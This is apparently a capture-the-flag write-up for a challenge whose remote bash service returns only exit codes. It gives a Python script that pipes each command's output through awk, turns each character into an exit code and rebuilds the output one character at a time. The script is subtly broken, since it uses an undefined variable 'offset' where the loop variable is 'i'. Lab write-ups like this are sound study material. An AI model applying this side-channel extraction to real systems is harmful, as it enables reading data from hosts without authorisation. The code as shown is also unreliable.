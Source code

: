 ## Problem

When we open this problem we are presented with a command input that is
definitely running bash, but all of our commands are not returning any stdout
or stderr. When we run a command, we only get the exit code.

```text
~ » nc jh2i.com 50025
ls -la
0... Well this is awkward...
```

It is also good to note that the challenge hints at using awk for this
challenge, but this is not the intended solution `:p`.

## Solution

For the solution I decided to take use of one major functionality in awk,
the ability to set error codes.

I also found a way to convert a character to it's ASCII int value.

Combining these together with python, I run a command and then get the first
char and set that as the exit code. Then the next char. Then the next char,
etc.


```python
import socc #https://github.com/f3rn0s/socc

s = socc.socc("jh2i.com", 50025)

def gen_commands(command, line):
    commands = []
    for i in range(0, 100):
        commands.append(
        # This defines a function ord
        # awk 'BEGIN{for(n=0;n<256;n++)ord[sprintf("%c", n)]=n}

        # This takes 1 character, starting at index 1, and sets that as the
        # exit code
        #awk 'FNR == 1{exit(ord[substr($0, 1, 1)])}'
            command +
            "| awk 'BEGIN{for(n=0;n<256;n++)ord[sprintf(" + '"%c"' +
            ",n)]=n}FNR == " + str(line) + "{exit(ord[substr($0, " +
            str(offset) + ", 1)])}'"
        )
    return commands

for line in range(0, 15): #Guess how many lines there will be
    for command in gen_commands("ls -l", line):
        s.send(command)
        return_int = int(s.recv().split("...")[0])

        #If there is a null byte, we end our line and start the next one
        if return_int != 0:
            print(chr(return_int), end='')
        else:
            print()
            break
```
